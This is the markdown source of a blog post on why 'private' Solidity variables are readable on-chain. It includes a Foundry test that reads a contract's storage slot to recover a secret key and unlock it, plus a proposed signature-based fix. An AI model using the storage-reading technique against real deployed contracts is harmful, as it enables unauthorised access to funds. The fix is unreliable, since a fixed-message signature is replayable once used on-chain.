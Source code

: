 ```yaml
---
title: Not so private Solidity storage
date: '2023-05-09T00:00:00Z'
modifiedTime: '2023-05-09T00:00:00Z'
summary: Introduce private storage vulnerability. An example of un-authenticated private information retrieval and discuss solution.
image: 'blogs/blockchain/private_storage/cover.webp'
type: BlogPost
---
```


# Problem introduction

In Solidity, you can define private variables in a contract to keep them hidden from other contracts.
Private variables are only accessible within the contract in which they are defined and cannot be accessed
or modified by other contracts or external users. This behavior is expected from programming languages which support OOP paradigm.

However, it's important to note that private variables are still visible to all participants on the blockchain, including miners and nodes.
This means that the values of private variables are not completely hidden,
and should not be used to store sensitive information such as passwords or private keys.

# An example

We will showcase an exploitation example in Foundry-VM.

## The Locker contract

Let's defined a `Locker` contract with 16bytes `secretKey` as below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Locker {
  bool public locked = true; // 1 bytes
  bytes16 private secretKey; // 16 bytes

  constructor(bytes16 _secretKey) {
    secretKey = _secretKey;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(secretKey));
    locked = false;
  }
}

```

## Unlock

If we analyze [storage allocation](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data) of the contract above, the result is:

<Image src="/blogs/blockchain/private_storage/storage.webp" width="1200" height="500" caption="Storage layout of Locker contract" />

Having that information in hand, an example unlocker would perform the following step:

1. Inspect the target contract
2. Load from contract storage slot 0
3. Extract `secretKey = bytes[15..30]` from the storage
4. Use the secret key to unlock.

An example mockup is implemented as follows:

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "~/private_lock/Locker.sol"; // the defined Locker contract

contract LockerTest is Test {
  Locker public targetLocker;

  function setUp() public {
    bytes16 secretPhrase = bytes16(keccak256(abi.encodePacked(tx.origin, "SECRET_HASH")));
    targetLocker = new Locker(secretPhrase);
  }

  function breakSecret(Locker _targetLocker) internal view returns (bytes16) {
    // Step 1: Identify the contract
    address lockerAddress = address(_targetLocker);
    // Step 2: Retrieve storage data from at block 0 from the smart contract
    bytes32 secretDataBlock = vm.load(lockerAddress, bytes32(uint256(0)));

    // LAYOUT: 15 "0" | 16 (secretKey) | 1 ("locked" status) [SLOT 0]
    // Step 3: Retrieve byte 16th to 31th, which is the secret key.
    bytes16 secretKey = bytes16(secretDataBlock << (15 * 8));

    return secretKey;
  }

  function testUnlockLocker() public {
    // Step 4: Unlock
    bytes16 secretKey = breakSecret(targetLocker);
    targetLocker.unlock(secretKey);

    bool isUnlocked = !targetLocker.locked();
    assertTrue(isUnlocked, "Hacker should break the lock");
  }
}
```

# Prevention

A simple solution to make the contract more secured is using a pre-defined signature as the secret key.
For this example, I use elliptic curve DSA:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureLocker {
  bool public locked = true; // 1 bytes
  address private owner;
  using ECDSA for bytes32;

  constructor(address _owner) {
    owner = _owner;
  }

  function unlock(bytes memory _signature) public {
    // EIP 712 Signature Validation: https://eips.ethereum.org/EIPS/eip-712
    bytes memory eth_msg = abi.encodePacked("\x19Ethereum Signed Message:\n20", "<SECRET_OFFCHAIN_MSG>");
    bytes32 hash = keccak256(eth_msg);
    if (owner == hash.recover(_signature)) {
      locked = false;
    }
  }
}
```

With this setup, the contract owner will store their signature (secret key) offchain and use it on `unlock` calls.

# References

1. [Ethernaut Level 12](https://ethernaut.openzeppelin.com/level/12)
2. [Ethereum storage layout](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data)
3. [Ethereum OpCodes](https://ethereum.org/en/developers/docs/evm/opcodes/)
